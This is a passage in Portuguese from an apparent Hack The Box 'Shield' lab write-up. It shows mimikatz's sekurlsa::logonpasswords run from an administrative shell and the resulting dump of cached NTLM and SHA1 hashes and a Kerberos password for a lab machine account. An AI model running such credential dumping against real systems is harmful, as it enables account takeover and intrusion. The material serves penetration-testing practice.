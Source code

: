 Agora em nosso shell administrativo, podemos executá-lo.

<img src="/img/htb/htb-shield-14.png">

Com o comando `sekurlsa::logonpasswords`, obtemos o dump de todos as senhas em cache.

```cmd

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 66298 (00000000:000102fa)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
```